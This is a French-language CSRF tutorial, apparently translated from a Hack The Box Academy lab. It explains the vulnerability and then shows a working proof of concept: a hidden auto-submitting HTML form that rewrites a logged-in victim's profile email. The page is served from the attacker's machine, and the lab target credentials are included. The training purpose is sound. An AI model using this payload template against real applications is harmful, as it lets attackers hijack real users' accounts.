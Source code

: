 Cross-Site Request Forgery (CSRF or XSRF)
===============================================

* * * * *

Les requêtes intersites sont courantes dans les applications Web et sont utilisées à de multiples fins légitimes.

Cross-Site Request Forgery (CSRF ou XSRF) est une attaque qui force un utilisateur final à exécuter des actions par inadvertance sur une application Web dans laquelle il est actuellement authentifié. Cette attaque est généralement montée à l'aide de pages Web conçues par l'attaquant que la victime doit visiter ou avec lesquelles interagir, en tirant parti de l'absence de mécanismes de sécurité anti-CSRF. Ces pages Web contiennent des requêtes malveillantes qui héritent essentiellement de l'identité et des privilèges de la victime pour exécuter une fonction indésirable au nom de la victime. Les attaques CSRF ciblent généralement des fonctions qui provoquent un changement d'état sur le serveur mais peuvent également être utilisées pour accéder à des données sensibles.

Une attaque CSRF réussie peut compromettre les données et les opérations de l'utilisateur final lorsqu'elle cible un utilisateur régulier. Si l'utilisateur final ciblé est un utilisateur administratif, une attaque CSRF peut compromettre l'ensemble de l'application Web.

Lors d'attaques CSRF, l'attaquant n'a pas besoin de lire la réponse du serveur à la requête intersite malveillante. Cela signifie que [la politique de même origine](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy) ne peut pas être considérée comme un mécanisme de sécurité contre les attaques CSRF.

Rappel : Selon Mozilla, la politique de même origine est un mécanisme de sécurité critique qui restreint la façon dont un document ou un script chargé par une origine peut interagir avec une ressource d'une autre origine. La politique de même origine ne permettra pas à un attaquant de lire la réponse du serveur à une requête intersite malveillante.

Une application Web est vulnérable aux attaques CSRF lorsque :

-   Tous les paramètres requis pour la requête ciblée peuvent être déterminés ou devinés par l'attaquant
-   La gestion des sessions de l'application est uniquement basée sur les cookies HTTP, qui sont automatiquement inclus dans les requêtes du navigateur

Pour exploiter avec succès une vulnérabilité CSRF, nous avons besoin de :

-   Pour créer une page Web malveillante qui émettra une requête valide (intersites) se faisant passer pour la victime
-   La victime doit être connectée à l'application au moment où la requête intersite malveillante est émise

Lors de vos tests de pénétration d'applications Web ou de vos efforts de chasse aux bogues, vous remarquerez que de nombreuses applications ne disposent d'aucune protection anti-CSRF ou de protections anti-CSRF pouvant être facilement contournées.

Nous nous concentrerons sur le contournement des protections anti-CSRF dans les sections suivantes.

* * * * *

Exemple de contrefaçon de demande intersite
-------------------------------------------

Allez à la fin de cette section et cliquez sur `Click here to spawn the target system!`ou sur `Reset Target`. Utilisez la Pwnbox fournie ou une machine virtuelle locale avec la clé VPN fournie pour atteindre l'application cible et suivez-la. N'oubliez pas de configurer le vhost ( `xss.htb.net`) spécifié pour accéder à l'application.

Accédez `http://xss.htb.net`à l'application et connectez-vous à l'aide des informations d'identification ci-dessous :

-   Courriel : crazygorilla983
-   Mot de passe : poissons

Il s'agit d'un compte que nous avons créé pour examiner les fonctionnalités de l'application.

Exécutez Burp Suite comme suit.

```
dsgsec@htb[/htb]$ burpsuite

```

Activez le proxy de burp suite ( *Intercept On* ) et configurez votre navigateur pour le parcourir.

Maintenant, cliquez sur "Enregistrer".

Vous devriez voir ci-dessous.

![image](https://academy.hackthebox.com/storage/modules/153/28.png)

Nous ne remarquons aucun jeton anti-CSRF dans la demande de profil de mise à jour. Essayons d'exécuter une attaque CSRF contre notre compte (Ela Stienen) qui modifiera les détails de son profil en visitant simplement un autre site Web (tout en étant connecté à l'application cible).

Tout d'abord, créez et servez la page HTML ci-dessous. Enregistrez-le sous`notmalicious.html`

Code : html

```
<html>
  <body>
    <form id="submitMe" action="http://xss.htb.net/api/update-profile" method="POST">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>

```

Si vous vous demandez comment nous nous sommes retrouvés avec le formulaire ci-dessus, veuillez consulter l'image ci-dessous. ![image](https://academy.hackthebox.com/storage/modules/153/29.png)

Nous pouvons servir la page ci-dessus à partir de notre machine d'attaque comme suit.

```
dsgsec@htb[/htb]$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...

```

Pas besoin de proxy pour le moment, alors ne faites pas passer votre navigateur par Burp Suite. Restaurez les paramètres de proxy d'origine du navigateur.

Tout en restant connecté en tant qu'Ela Stienen, ouvrez un nouvel onglet et visitez la page que vous servez depuis votre machine d'attaque `http://<VPN/TUN Adapter IP>:1337/notmalicious.html`. Vous remarquerez que les détails du profil d'Ela Stienen seront remplacés par ceux que nous avons spécifiés dans la page HTML que nous servons.

![image](https://academy.hackthebox.com/storage/modules/153/30.png)

Notre hypothèse selon laquelle il n'y a pas de protection CSRF dans l'application était correcte. Nous avons pu modifier les détails du profil d'Ela Stienen via une requête intersite.

Nous pouvons désormais utiliser la page Web malveillante que nous avons conçue pour exécuter des attaques CSRF contre d'autres utilisateurs.

Ensuite, nous verrons comment nous pouvons attaquer les applications dotées de mécanismes anti-CSRF.
